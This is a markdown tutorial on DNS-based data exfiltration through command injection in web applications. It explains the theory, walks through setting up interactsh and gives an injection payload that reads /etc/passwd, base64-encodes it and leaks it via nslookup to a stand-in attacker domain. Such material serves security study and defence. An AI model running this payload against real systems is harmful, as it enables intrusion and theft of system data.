 ```yaml
---
title: Learn DNS Based Data Exfiltration Techniques
description: Explore how attackers use DNS queries for covert data exfiltration via
  command injection vulnerabilities.
keywords:
- DNS exfiltration
- command injection
- data leakage
- dnsbin
- interactsh
- DNS queries
- network security
---
```


# DNS Based Data Exfiltration

## Context

The objective of this guide is to demonstrate how to exfiltrate data through DNS requests using command injection vulnerabilities present in web applications. It assumes foundational knowledge of the DNS protocol, data exfiltration methods, and command injection techniques.

## Theory

### DNS as a Covert Exfiltration Channel

DNS-based data exfiltration leverages DNS queries to transmit sensitive data from a compromised host to an attacker-controlled domain. This technique is effective because DNS traffic is often allowed outbound through firewalls and is subject to less scrutiny compared to other protocols, making it a stealthy vector for data exfiltration. The typical attack sequence involves an attacker injecting commands into a vulnerable application, which then triggers DNS lookups. These lookups embed sensitive data within their subdomains, directing them towards an attacker-controlled DNS server.

### Mechanics of DNS Request Exfiltration

Sensitive data intended for exfiltration is encoded and appended as a subdomain in DNS queries to an attacker-controlled domain. The primary weakness exploited is the common lack of filtering or inspection of DNS queries for unintended data leakage, especially on the standard DNS port, UDP/53. Visualizing the process, the compromised web application allows command injection, resulting in a system command execution that forms a DNS query. This query, containing encoded user data as a subdomain, is sent to the attacker's DNS server, allowing the attacker to capture and decode the data.

```mermaid
flowchart TD
    A[Compromised Web App] -->|Command Injection| B[System Command]
    B -->|DNS Query with Data| C[Attacker DNS Server]
    C --> D[Data Captured by Attacker]
```

### DNS Exfiltration Tooling and Infrastructure

Tools like **dnsbin** and **interactsh** facilitate this technique by providing attacker-controlled DNS endpoints that listen for and capture DNS queries with exfiltrated data. The attacker needs to control a particular domain and set up infrastructure to monitor and analyze DNS queries effectively.

## Practice

### Exfiltrating Data via DNS Requests Using Command Injection

- **Set up an attacker-controlled DNS endpoint**:
  - Use tools like **interactsh** or **dnsbin** to create an endpoint that receives DNS queries containing exfiltrated data.

- **Command Line**:
  ```bash
  interactsh-client
  ```
  - Start the interactsh client to generate a unique domain and listen for incoming DNS queries.

- **Identify a Command Injection Point**:
  - Confirm the presence of a command injection vulnerability in the target web application. This step assumes that you have already identified such a point based on your prior knowledge and reconnaissance.

- **Inject Exfiltration Payload**:
  - Payload:
    ```bash
    $(cat /etc/passwd | base64 | tr -d '\n' | xargs -I{} nslookup {}.attacker-domain.com)
    ```
  - This command injects a system call to read `/etc/passwd`, encodes its contents in base64, and sends them via DNS queries using `nslookup` to the attacker-controlled domain.

- **Monitor DNS Queries**:
  - Watch the interactsh or dnsbin interface for incoming DNS queries containing the exfiltrated data. These queries reveal subdomains with encoded sensitive data to be further processed and decoded by the attacker.

## Tools

- **interactsh-client**
- **dnsbin** 

Following these steps, an attacker can exfiltrate sensitive information using DNS queries in a covert manner, effectively bypassing many traditional security measures. This guide illustrates the process and highlights the risks associated with insufficient scrutiny of DNS traffic.